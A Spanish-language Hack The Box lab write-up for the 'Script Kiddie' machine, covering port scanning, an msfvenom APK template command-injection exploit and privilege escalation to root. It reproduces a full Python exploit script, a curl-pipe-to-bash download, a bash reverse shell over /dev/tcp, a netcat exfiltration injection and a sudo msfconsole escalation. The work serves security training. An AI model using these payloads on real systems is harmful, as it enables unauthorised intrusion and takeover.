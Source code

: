 ```yaml
---
title: "Script Kiddie - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/Scriptkiddie.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - Sudo
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/scriptkiddie.png">
</p>

La máquina **Script Kiddie** es una máquina virtual vulnerable de la plataforma **HackTheBox** con un nivel de dificultad **fácil** una calificación en el rank de 4.1, **5039 USER OWNS** y **4475 SYSTEM OWNS** con la ip **10.10.10.226** y un sistema operativo **Linux**.


# Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.226]** utilizando los parámetros:
 - **-p-:**    Escaneo a toda la gama de puertos (65536).
 - **-n:**     No hacen la resolución del DNS.
 - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
 - **-v:**     Aumenta el nivel de los mensajes verbose.
 - **--open:** Muestra sólo los puertos con un estatus abierto.
 - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/scanPort.png?raw=true">
</p>

Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5000**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/Ports.png?raw=true">
</p>

Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

 - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
 - -sV: Detección de versiones en servicios alojados en puertos.
 - -p : Puertos a inspeccionar.
 - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/PortServ.png?raw=true">
</p>

Gracias a lo que nos mostró el escaneo de servicios y versiones se puede ver que en el puerto **5000** se aloja un servicio **http** y en el puerto **22** un servicio **ssh**, sabiendo esto y yendo a un navegador e ingresando al servicio **http** por el puerto **5000** se puede ver la siguiente web.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/web.png?raw=true">
</p>

Es una web que cuenta con diferentes herramientas implementada en la web de pentesting como **nmap**, **msfvenom** y **searchsploit**.
Algo que se alcanza a ver es que en la herramienta implementada de **msfvenom** se pueden subir **template**, investigando se puede llegar a un articulo el cual explica una vulnerabilidad existente en una version [desactualizada del framework de metasploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

En ella se habla de como crear un **apk** malicioso con el cual a la hora de implementarlo como **template** en la creación de un archivo apk el **apk tmplate** injecta comandos en la maquina.

En el articulo habla de como hacerlo con la herramienta de **metasploit** pero no es necesario ya que podemos hacer uso del siguiente código en python que saque de el [github de justinsteven ](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).
```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
payload = '[Insert Payload]'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
```
En este código solo tenemos que cambiar el **payload** para el **apk maliciosos** que generaremos, en este caso yo me enviare 5 paquetes icmp y para verificar si tengo ejecución de comando examinare los paquetes con **tcpdum**.


Así que voy a la web y cargo el apk malicioso que generé con el script en python.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp1.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp2.png?raw=true">
</p>

Excelente si tenemos ejecución de comandos en la maquina victima así que modificare el payload para entablar me una shell a mi maquina.

Como yo tuve fallas para entablar me la shell lo que hice fue crear un archivó con codigo en bash en mi maquina y levantar un servicio **http** con python y en el payload del script ingresar: **```payload = 'curl http://[Your IP]/bash.sh | bash'```**.


Esto es así ya que cuando la maquina victima haga el curl y vea el contenido del archivo al pipearlo con bash interpretara el código que en este caso es una conexión por bash a mi maquiná y así otorgándome la shell.

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your Ip]/[PORT] 0>&1
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell.png?raw=true">
</p>


# Privilege escalation


Ahora que ya tenemos el acceso a la maquina se puede ver que accedemos como el usuario **kid** y enumerando el sistema se ve que existen 3 usuario:
* root
* kid
* pwd

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/passwd.png?raw=true">
</p>

En el dirección personal de **kid** hay una carpeta **logs/** con un archivo llamado **hackers** el cual no tiene contenido.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/kid.png?raw=true">
</p>

Si enumeramos mas el sistem podemos acceder al directorio personalde **pwd** en el cual hay un archivo .sh que tiene el siguiente contenido

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Lo que hace este código es verificar si el archivo **"hackers"** tiene contenido y si lo tiene lo filtra a partir del tercer argumento del contendió que tenga y luego este contenido que se supone que debe ser una ip lo manda como argumento a comando de namp para hacer el escaneo.


Algo que podemos hacer es imprimir contenido en el archivo **hackers** y poner en blanco 3 espacios para evitar asi el filtro y concatenado un **';'** esto es así ya que estamos indicando que después de hacer el cat ejecuta la siguiente orden que le pasaremos la cual sera un comando a nuestro beneficio junto a un **'#'** para que no entre en conflicto ningún argumento del script y todo este output ingresarlo en **hackers**.

En este caso para verificar que funcionara probe haciendo un **"whoami"** y enviar el output por **'netcat'** a mi maquina

```bash
echo '    ; whoami | nc 10.10.15.125 444 #' > hackers
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/whoami.png?raw=true">
</p>

Excelente ya que se comprueba que podemos injectar comando como **pwd** entonces me entablare una conexión a mi maquina y por ende me dará la shell como el usuario  **pwd**

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell2.png?raw=true">
</p>

Muy bien ahora que somos **pwd** buscaremos la forma de escalar privilegios a **root**, enumerando el sistema podemos ver que el usuario **pwd** tiene permisos sudo para ejecutar sin contraseña el framework **/opt/metasploit-framework-6.0.9/msfconsole**.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/sudo.png?raw=true">
</p>

Sabiendo esto una vez que estamos dentro de mestasploit podemos ejecutar comandos como si estuviéramos en una shell y si lo hacemos bajo el privilegios sudo estaríamos ejecutando comando como root e incluso otorgarnos una shell como el mismo.

```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/root.png?raw=true">
</p>

Con esto se podría concluir la maquina **ScriptKiddie** así sacando el máximo privilegios que es **root**.

Muchas Gracias por leer <3.
